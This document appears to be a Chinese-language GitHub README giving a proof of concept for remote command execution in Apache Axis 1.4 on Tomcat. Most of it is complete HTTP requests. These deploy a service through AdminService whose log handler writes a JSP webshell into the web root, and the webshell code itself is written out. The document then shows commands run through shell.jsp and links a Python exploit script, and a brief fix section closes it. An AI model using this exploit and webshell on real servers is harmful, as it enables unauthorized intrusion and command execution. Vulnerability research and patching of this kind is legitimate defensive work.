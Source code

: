 ## Axis 1.4   远程命令执行（RCE） POC

###  环境准备
首先下载Axis1.4 本仓库有一个打包好的axis直接解压到tomcat webapp下即可 ,web-inf/web.xml 去掉adminserver注释

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/web-inf.jpg)

然后，config开启enableremoteadmin （本地环境可以不管）
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/config.jpg)
本人部署在tomcat8上
### 利用
#### 第一步：
通过services/AdminService 服务 部署webservice ,service开启一个写文件服务。这里我们文件名是./webapps/ROOT/shell.jsp，服务模块的工作路径是bin目录，这里利用相对路径写入ROOT目录，也就是tomcat默认根目录。

```
POST /axis/services/AdminService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1063

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
    <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/step1.jpg)
#### 调用创建的恶意service 写入webshell
```
POST /axis/services/RandomService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 878

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>

```
返回500，不用管，但是文件已经创建成功了
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/stap2.jpg)
看我们ROOT目录下shell文件，虽然有些错误，但是不影响，因为是log模式，有追加内容
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/shell.jpg)
#### 第三部执行shell.jsp
访问 http://localhost:8080/shell.jsp?c=cmd%20/c%20ipconfig

同样忽略网页报错
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd.jpg)
右键查看源码，可以看执行命令的结果。

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd1.jpg)

python 脚本下载地址：
 [POC](https://github.com/KibodWapon/Axis-1.4-RCE-Poc/blob/master/Axis1.4_rce_poc.py "Axis1.4_rce_poc.py").


### 影响和修复
默认情况下service远程管理没开启，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf.xml ，然后重启tomat.
```
  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/servlet/AdminServlet</url-pattern>
  </servlet-mapping>

```


